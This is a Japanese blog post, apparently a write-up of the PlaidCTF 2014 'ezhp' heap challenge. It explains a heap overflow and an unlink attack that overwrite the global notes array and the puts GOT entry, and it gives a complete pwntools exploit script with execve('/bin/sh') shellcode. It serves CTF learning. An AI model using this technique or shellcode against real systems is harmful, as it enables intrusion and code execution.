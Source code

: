 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2014/plaidctf-2014-ezhp/
  - /blog/2016/08/17/plaidctf-2014-ezhp/
date: "2016-08-17T00:43:10+09:00"
tags: [ "writeup", "ctf", "pwn", "heap", "plaidctf" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/ezhp" ]
---
```


# PlaidCTF 2014 ezhp

heap問のrevは疲れる。
キャンプの夜の短い自由時間に挑んだのだが、それで解くのは私には厳しかったので後から時間で殴った。

## solution

heap上の単なる文字列として表現されるノートを作成/修正/削除/表示できるプログラム。
簡易な独自実装heapを持ち、heap上buffer overflowの脆弱性がある。
ノートの修正でbuffer overflowさせ、ノートの削除でheap unlink attackして適当にどこかを書き換え、GOT overwriteなりでshellcodeを踏めばよい。


strippedなのでrevする。
問題となるのは`0x8048708 <myfree>`だけであるので、`0x804858b <myalloc>`の側はあまり読まなくてよい。
簡易な実装ではあるが双方向連結listの操作は通常通りであり、

``` c
    if (bk) bk->fd = fd;
    if (fd) fd->bk = bk;
```

は(chunkの大きさによらず)行われているので、これを用いて適当な領域への書き込みを行う。
global変数として存在するノートの配列`char *g_notes[]`あたりを書き換えてしまえば、あとはノートの修正部分で楽にshellが取れる。RELROもNX bitもない。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

g_notes  = 0x804a060 # char *g_notes[]
puts_got = 0x804a008

# http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p = process('./ezhp')

def add_note(size):
    p.recvuntil('Please choose an option.')
    p.sendline('1') # add a note
    p.recvuntil('Please give me a size.')
    p.sendline(str(size))

def remove_note(id):
    p.recvuntil('Please choose an option.')
    p.sendline('2') # remove a note
    p.recvuntil('Please give me an id.')
    p.sendline(str(id))

def change_note(id, data):
    p.recvuntil('Please choose an option.')
    p.sendline('3') # change a note
    p.recvuntil('Please give me an id.')
    p.sendline(str(id))
    p.recvuntil('Please give me a size.')
    p.sendline(str(len(data)))
    p.recvuntil('Please input your data.')
    p.send(data)

# make notes
add_note(11) # 0
add_note(11) # 1
add_note(11) # 2

# send payload to heap
payload = ''
payload += 'AAAA' # heap + 0x18
payload += 'AAAA'
payload += 'AAA\0'
payload += p32(0x19)
payload += p32(0xaaaaaaaa) # p32(heap + 0x3c)
payload += p32(0xbbbbbbbb) # p32(heap + 0x0c)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x19)
payload += p32(g_notes) # p32(heap + 0x54)
payload += p32(g_notes - 4) # p32(heap + 0x24)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x3b8)
payload += p32(0)
payload += p32(0xcccccccc) # p32(heap + 0x3c)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0)
change_note(0, payload)

# write &g_notes[0] into g_notes[0]
remove_note(2)

# rewrite g_notes entries
payload = ''
payload += p32(g_notes)
payload += p32(puts_got)
payload += shellcode
change_note(0, payload)

# jump to the shellcode
change_note(1, p32(g_notes + 8))

time.sleep(1)
p.sendline('id')
p.interactive()
```
